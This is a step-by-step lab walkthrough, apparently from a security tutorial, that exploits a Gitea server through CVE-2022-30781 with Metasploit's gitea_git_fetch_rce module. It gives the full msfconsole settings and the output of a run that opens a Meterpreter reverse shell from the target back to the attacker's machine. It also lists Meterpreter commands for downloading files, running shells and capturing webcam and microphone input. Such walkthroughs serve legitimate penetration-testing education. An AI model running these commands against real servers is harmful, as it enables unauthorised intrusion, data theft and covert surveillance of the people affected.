




Start up your msfconsole and search for the Gitea exploit.
search gitea

You will recall that your target Gitea server is potentially vulnerable to CVE-2022-30781 and that the remediation commit in Github
references escaping the git fetch remote URL. In this case we’re interested in option #0. Load up this exploit module with either:
use 0
use exploit/multi/http/gitea_git_fetch_rce
Typing show options tells us we need to set a couple of options
Setting values within msfconsole is really straight forward.
set RHOSTS 192.168.0.105set LHOST 192.168.0.103set USERNAME guestset PASSWORD guestset SRVPORT 8181 - The port on our machine we’ll tell Gitea to connect toset ForceExploit true - Ignores whatever the check module returnsrun - Try the exploit[*] Started reverse TCP handler on 192.168.0.103:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. Check TARGETURI - Unexpected HTTP response code ForceExploit is enabled, proceeding with exploitation.
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/3oYWb2XU9
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitea_git_fetch_rce) >
It looks like our exploit will require valid credentials to Gitea. Check if the server allows account creation. 
It looks like we can create a new user account! 
Now head back to your msfconsole and set the USERNAME and PASSWORD for the user account you just created and try the exploit again.
[*] Started reverse TCP handler on 192.168.0.103:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/bnQOtbfkgbqrJGD
[*] Client 192.168.0.105 (curl/7.47.0) requested /bnQOtbfkgbqrJGD
[*] Sending payload to 192.168.0.105 (curl/7.47.0)
[*] Sending stage (3045348 bytes) to 192.168.0.105
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Meterpreter session 1 opened (192.168.0.103:4444 -> 192.168.0.105:42720) at 2023-03-21 14:46:55 -0500
meterpreter >
You can return to your msfconsole at any time simply by issuing the background command.
While in the msfconsole you can type sessions to get a list of active meterpreter sessions and then sessions -i 0
where 0 is the Id of the session you want to interact with that session.

help to get a list of available meterpreter commandsCore Commands
=============
Command Description
------- -----------
? Help menu
background Backgrounds the current session
bg Alias for background
bgkill Kills a background meterpreter script
bglist Lists running background scripts
bgrun Executes a meterpreter script as a background thread
channel Displays information or control active channels
close Closes a channel
detach Detach the meterpreter session (for http/https)
disable_unic Disables encoding of unicode strings
ode_encoding
enable_unico Enables encoding of unicode strings
de_encoding
exit Terminate the meterpreter session
guid Get the session GUID
help Help menu
info Displays information about a Post module
irb Open an interactive Ruby shell on the current session
load Load one or more meterpreter extensions
machine_id Get the MSF ID of the machine attached to the session
pry Open the Pry debugger on the current session
quit Terminate the meterpreter session
read Reads data from a channel
resource Run the commands stored in a file
run Executes a meterpreter script or Post module
secure (Re)Negotiate TLV packet encryption on the session
sessions Quickly switch to another session
use Deprecated alias for "load"
uuid Get the UUID for the current session
write Writes data to a channel
Stdapi: File system Commands
============================
Command Description
------- -----------
cat Read the contents of a file to the screen
cd Change directory
checksum Retrieve the checksum of a file
chmod Change the permissions of a file
cp Copy source to destination
del Delete the specified file
dir List files (alias for ls)
download Download a file or directory
edit Edit a file
getlwd Print local working directory
getwd Print working directory
lcat Read the contents of a local file to the screen
lcd Change local working directory
lls List local files
lpwd Print local working directory
ls List files
mkdir Make directory
mv Move source to destination
pwd Print working directory
rm Delete the specified file
rmdir Remove directory
search Search for files
upload Upload a file or directory
Stdapi: Networking Commands
===========================
Command Description
------- -----------
arp Display the host ARP cache
getproxy Display the current proxy configuration
ifconfig Display interfaces
ipconfig Display interfaces
netstat Display the network connections
portfwd Forward a local port to a remote service
resolve Resolve a set of host names on the target
route View and modify the routing table
Stdapi: System Commands
=======================
Command Description
------- -----------
execute Execute a command
getenv Get one or more environment variable values
getpid Get the current process identifier
getuid Get the user that the server is running as
kill Terminate a process
localtime Displays the target system local date and time
pgrep Filter processes by name
pkill Terminate processes by name
ps List running processes
shell Drop into a system command shell
suspend Suspends or resumes a list of processes
sysinfo Gets information about the remote system, such as OS
Stdapi: Webcam Commands
=======================
Command Description
------- -----------
webcam_chat Start a video chat
webcam_list List webcams
webcam_snap Take a snapshot from the specified webcam
webcam_strea Play a video stream from the specified webcam
m
Stdapi: Mic Commands
====================
Command Description
------- -----------
listen listen to a saved audio recording via audio player
mic_list list all microphone interfaces
mic_start start capturing an audio stream from the target mic
mic_stop stop capturing audio
Stdapi: Audio Output Commands
=============================
Command Description
------- -----------
play play a waveform audio file (.wav) on the target system
meterpreter >
There is quite a bit you can do with a meterpreter session and there is no need for me to rewrite the great documentation that already exists. So here are a few external links for you to check out on your own.